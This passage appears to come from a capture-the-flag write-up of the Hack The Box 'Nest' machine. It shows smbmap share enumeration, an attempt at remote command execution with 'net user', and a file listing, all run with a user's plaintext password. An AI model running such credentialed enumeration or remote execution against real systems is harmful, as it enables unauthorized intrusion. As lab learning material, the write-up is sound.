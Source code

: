 Look at the following `smbmap` results for `C.Smith` users. Same result for `TempUser`. None of the Share has Write Access. Evil-WinRm is not working as well.
```
# smbmap -u 'C.Smith' -p 'xRxRxPANCAK3SxRxRx' -H 10.10.10.178      
[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 10.10.10.178:445        Name: nest.htb                  Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        Secure$                                                 READ ONLY
        Users                                                   READ ONLY
[*] Closed 1 connections                                                                         
```

#### smbmap - Trying to execute command using valid creds

```
# smbmap -u'C.Smith' -p 'xRxRxPANCAK3SxRxRx' -d NEST.HTB -x 'net user' -H 10.10.10.178

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
[*] Closed 1 connections                                                                                                     
```

I tried to remove `-d` option and it did not work.

#### smbmap - Non Recursive Path Listing 

```
# smbmap -u'C.Smith' -p 'xRxRxPANCAK3SxRxRx' -r 'Users/C.Smith/HQK Reporting' -H 10.10.10.178
[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 10.10.10.178:445        Name: nest.htb                  Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        Secure$                                                 READ ONLY
        Users                                                   READ ONLY
        ./UsersC.Smith/HQK Reporting
        dr--r--r--                0 Wed Jul 21 14:47:05 2021    .
        dr--r--r--                0 Wed Jul 21 14:47:05 2021    ..
        dr--r--r--                0 Fri Aug  9 08:18:42 2019    AD Integration Module
        fr--r--r--                0 Wed Jul 21 14:47:12 2021    Debug Mode Password.txt
        fr--r--r--              249 Wed Jul 21 14:47:14 2021    HQK_Config_Backup.xml
[*] Closed 1 connections                                                                                                     
```
